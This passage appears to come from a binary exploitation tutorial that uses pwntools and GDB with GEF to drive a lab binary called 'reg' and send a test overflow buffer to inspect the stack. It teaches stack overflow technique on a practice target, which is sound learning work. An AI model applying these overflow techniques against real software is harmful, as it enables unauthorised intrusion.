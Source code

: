 So nice and steady, all we're doing here is using pwntools to start our process 
and then interact with it, which will give us a feel for how this will work and 
what output to expect:

![Terminal Screenshot](/assets/images/posts/pwn_reg/Image26.png)

As you'll see from the above, running pwntools with `log_level="DEBUG"`  
gives us a lot of information about the binary, but ultimately, all we're 
seeing here is the normal operation of the binary in the console, we're just 
doing it programmatically. Try it and see what's going on for now, as we get 
more advanced, we can automate the I/O into the process in a more compex way 
than our previous use of basic python *print* statements. 

Now we'll add some more functionality to our script, we'll configure GDB and 
attach to the process, so that we can inspect the stack as we did previously. 
Once that's done, we'll send over our test attack buffer to inspect the stack:

```python
#!/usr/bin/env python3

from pwn import *
from time import sleep

context.log_level = "DEBUG"     # See more detailed interaction information
context.binary = ELF("./reg")   # Set the context binary to our target

# Now spawn an instance of our process and interact with it
p = process("./reg")

# Configure GDB with a script - breakpoint after gets() and start GEF
gdb_script = '''
    init-gef
    b *(run + 52)
    '''
gdb.attach(p, gdb_script)       # Now attach to the reg process 

# Build our previous buffer, using bytes objects because python3
test_buf = b"A" * 0x30 + b"S" * 0x8 + b"R" * 0x8
# Send this directly to the process
```